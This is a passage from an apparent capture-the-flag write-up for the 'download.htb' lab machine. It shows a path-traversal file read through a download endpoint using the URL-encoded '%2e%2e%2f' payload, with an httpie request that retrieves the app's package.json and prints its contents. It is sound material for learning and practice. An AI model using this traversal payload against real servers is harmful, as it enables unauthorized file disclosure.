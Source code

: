 ### File Read

Looking at the download request, it seems that the endpoint sends what appears to be the file UUID as a parameter, this could be potentially be vulnerable to some kind of file read.

![download-endpoint](./images/download-endpoint.png "Download request")

I experimented with various payloads to exploit the potential file read vulnerability, and the only one that worked is `%2e%2e%2f` (URL encoded `../`). Unfortunately, I couldn't read anything beyond the webapp's root directory using this approach. Given that this is an Express application, the `package.json` file could give details about the application, including its dependencies and starting point.

{{< highlight bash "hl_lines=3 6-7 28 32" >}}
> http -pb http://download.htb/files/download/%2e%2e%2fpackage.json
{
    "author": "wesley",
    "dependencies": {
        "@prisma/client": "^4.13.0",
        "cookie-parser": "^1.4.6",
        "cookie-session": "^2.0.0",
        "express": "^4.18.2",
        "express-fileupload": "^1.4.0",
        "zod": "^3.21.4"
    },
    "description": "",
    "devDependencies": {
        "@types/cookie-parser": "^1.4.3",
        "@types/cookie-session": "^2.0.44",
        "@types/express": "^4.17.17",
        "@types/express-fileupload": "^1.4.1",
        "@types/node": "^18.15.12",
        "@types/nunjucks": "^3.2.2",
        "nodemon": "^2.0.22",
        "nunjucks": "^3.2.4",
        "prisma": "^4.13.0",
        "ts-node": "^10.9.1",
        "typescript": "^5.0.4"
    },
    "keywords": [],
    "license": "ISC",
    "main": "app.js",
    "name": "download.htb",
    "scripts": {
        "build": "tsc",
        "dev": "nodemon --exec ts-node --files ./src/app.ts",
        "test": "echo \"Error: no test specified\" && exit 1"
    },